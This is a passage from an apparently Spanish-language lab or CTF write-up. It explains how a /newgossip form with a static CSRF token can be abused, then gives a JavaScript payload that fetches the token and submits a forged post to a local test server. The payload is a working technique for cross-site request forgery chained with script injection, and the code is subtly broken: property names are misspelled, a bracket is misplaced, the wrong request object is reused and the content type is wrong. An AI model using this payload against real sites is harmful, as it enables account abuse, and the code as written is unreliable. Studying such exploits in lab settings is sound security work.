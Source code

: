 como podemos observar se necesita una peticion post a la direccion ```/newgossip``` con un campo ```tittle```, otro llamado ```subtitle```, otro campo ```text``` y por ultimo un valor llamado ```csrf_token``` que es un valor estatico (en este caso) lo que facilita la explotacion.

payload:<br> 

```js
var domain = "http://localhost:10007/newgossip";
var req1 = new XMLHttpRequest();
req1.open('GET', domain, false)
req1.withCredentias = true;
req1.send();

var response = req1.responseText;
var parser = new DOMParser();
var doc = parser.parseFromString(response,'text/html');
var token = doc.getElementsByName("_csrf_token"[0].value);

var req2 = new XMLHttpRequest();
var data = "title=nuevopost&subtitle=automatizado+&text=blabla&_csrf_token=" + token;
req2.open('POST', "http://localhost:10007/newgossip", false);
req1.withCredentias = true;
req2.setRequestHeader('Content-Type', 'application/x-form-urlencoded')
req2.send(data);
```